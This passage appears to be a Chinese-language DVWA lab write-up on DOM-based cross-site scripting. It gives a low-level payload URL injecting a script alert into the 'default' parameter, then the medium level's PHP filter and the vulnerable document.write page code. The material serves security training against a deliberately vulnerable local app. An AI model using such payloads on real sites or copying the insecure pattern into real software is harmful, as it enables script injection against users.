 			 # No protections, anything goes
 
    	?> 




- 分析与利用

	由于未做任何安全校验，直接构造payload

- 构造payload

	<http://localhost:8080/dvwa/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(1)%3C/script%3E>



----------

2.Medium DOM XSS Source

- 漏洞代码

    	<?php
			
			// Is there any input?
			if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
				$default = $_GET['default'];
				
				# Do not allow script tags
				if (stripos ($default, "<script") !== false) {
					header ("location: ?default=English");
					exit;
				}
			}
			 
    	?> 

- DOM

		<p>Please choose a language:</p>
			 
		<form name="XSS" method="GET">
			<select name="default">
				<script>
					if (document.location.href.indexOf("default=") >= 0) {
						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
						document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
						document.write("<option value='' disabled='disabled'>----</option>");
					}

						document.write("<option value='English'>English</option>");
						document.write("<option value='French'>French</option>");
						document.write("<option value='Spanish'>Spanish</option>");
						document.write("<option value='German'>German</option>");
				</script>
			</select>
			<input type="submit" value="Select" />
		</form>
	